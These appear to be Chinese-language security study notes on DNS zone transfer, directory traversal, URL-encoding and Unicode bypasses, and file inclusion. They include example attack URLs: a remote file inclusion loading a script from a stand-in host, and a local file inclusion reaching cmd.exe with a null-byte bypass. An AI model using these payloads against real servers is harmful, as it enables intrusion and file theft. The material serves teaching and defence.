 -   **DNS Zone Transfer Attack（DNS 區域傳輸攻擊）**：
    -   定義：攻擊者偽裝成授權系統，嘗試獲取整個 DNS 區域資料（包含網域的所有 DNS 記錄）。
    -   風險：可揭露網域的網路基礎設施敏感資訊，並用作未來攻擊的偵察資料。

## 重要防禦概念

DNS 攻擊利用網域名稱系統的漏洞來中斷服務、竊取資訊或重新導向網站流量。透過理解攻擊原理，組織可實施適當機制預防攻擊發生。

# 目錄遍歷攻擊

-   **Directory Traversal Attack（目錄遍歷攻擊）**：一種注入攻擊，允許攻擊者通過應用程式介面訪問非預期的檔案和目錄

    -   攻擊者可通過操作含有「dot-dot-slash (../)」序列或絕對檔案路徑，訪問檔案系統上的任意檔案和目錄
    -   允許存取非預期連接到網站文件根目錄的命令、檔案和目錄

-   **Web Document Root（網站文件根目錄）**：網頁伺服器尋找網頁檔案的基礎目錄

    -   這不是硬碟的根目錄，而是網站檔案的根目錄位置
    -   目錄遍歷攻擊嘗試突破這個邊界，訪問根目錄之外的檔案

-   **目錄遍歷語法**：

    -   Unix/Linux/Mac 系統：使用 `../` 進行目錄向上回溯
    -   Windows 系統：使用 `..\` 進行目錄向上回溯
    -   Windows 系統通常同時接受 `/` 和 `\` 兩種分隔符

-   **URL 編碼繞過**：攻擊者可使用 URL 編碼來隱藏目錄遍歷嘗試

    -   例如：`%2e%2e%2f` 等同於 `../`
    -   攻擊者可能會使用不同深度的遍歷嘗試，以防止較長序列被阻擋

-   **Unicode 繞過**：

    -   某些應用程式會在使用路徑前進行規範化，允許某些 Unicode 字元轉換成點號，從而繞過安全檢查
    -   這種方法利用 Unicode 等價性和相容性字元繞過輸入驗證

-   **File Inclusion（檔案包含）**：與目錄遍歷相關的漏洞，分為兩種類型

    -   **Remote File Inclusion（遠端檔案包含）**：攻擊者嘗試執行腳本，將遠端檔案注入網站

        -   例如：`https://example.com/login.php?user=http://malware.bad/malicious.php`
        -   攻擊者利用參數傳遞引入惡意腳本檔案

    -   **Local File Inclusion（本地檔案包含）**：攻擊者嘗試添加已存在於伺服器上的檔案
        -   例如：`https://example.com/login.php?user=../../Windows/system32/cmd.exe%00`
        -   常與目錄遍歷結合使用，存取系統關鍵檔案
        -   `%00` 是空字元，用於繞過會自動添加副檔名（如 `.php`）的安全機制

-   **識別特徵**：

    -   在 URL 或參數中出現 `../`、`..%2f`、`..\\` 等模式是目錄遍歷攻擊的明顯標誌

-   **影響範圍**：
    -   成功的目錄遍歷可能導致敏感資訊洩露（如配置檔案、密碼檔案）
    -   允許攻擊者執行系統命令、上傳惡意檔案或建立後門

# 執行與提權攻擊

